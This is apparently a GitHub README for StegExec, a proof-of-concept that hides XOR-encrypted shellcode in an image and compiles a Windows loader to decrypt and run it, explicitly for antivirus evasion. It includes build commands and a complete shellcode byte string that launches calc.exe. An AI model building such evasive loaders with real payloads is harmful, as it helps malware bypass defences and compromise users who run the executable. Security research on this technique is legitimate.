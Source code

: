# StegExec 🚀

## Overview
StegExec (Steganography Executor) is a fully automated Proof of Concept for embedding XOR-encrypted shellcode within an image file. The project encrypts the shellcode, injects it into the image, and compiles a custom C++ executable that, when launched, locates, decrypts, and executes the shellcode. This project demonstrates file steganography, memory manipulation, and antivirus evasion techniques for educational purposes. 

NOTE: I made this to learn more about steganography and antivirus evasion for my own career development. This is not intended to be used for malicious purposes.

## Features
- Automated encryption, injection, and executable compilation
- Custom C++ loader for shellcode execution on launch
- Batch-driven workflow for seamless deployment
- Demonstrates file-based stealth execution

## Getting Started

### Prerequisites
- Windows
- Python 3.x
- MinGW (includes g++ and windres)
- PowerShell

### Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/craig-rylance/StegExec.git
   cd stegexec
2. Ensure all required dependencies are installed:
- Install MinGW from [MinGW-w64](https://www.mingw-w64.org/) and ensure `g++` and `windres` are included in your installation.
3. Set up your environment:
- Place your target image file in the project directory.
- Prepare your shellcode input.

### Usage
1. Open PowerShell.
2. Run the batch script with the target image filename and shellcode as arguments:
    ```bash 
    .\compile-executable.cmd [target_image_file] "[shellcode]"
3. After successful execution, you will have a compiled `executable.exe` file that can be launched to execute the injected shellcode.


#### Example shellcode format (Launches calc.exe): 
Ensure that shellcode is formatted exactly like this, with spaces separating each byte.

    0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6

#### Example command:

    .\compile-executable.cmd example-image.jpg "0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6"

Running this command will produce an executable that will launch calc.exe using the encrypted shellcode inside of example-image.jpg

## ⚠️ Important Note
This project is for **educational and research purposes only**. Ensure compliance with all legal and ethical guidelines when testing or demonstrating the techniques presented in this project.

## Contributing
If you would like to contribute to this project, please fork the repository and submit a pull request with your enhancements or bug fixes.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Credit to leetcipher (https://github.com/leetCipher) for the base Python and C++ code.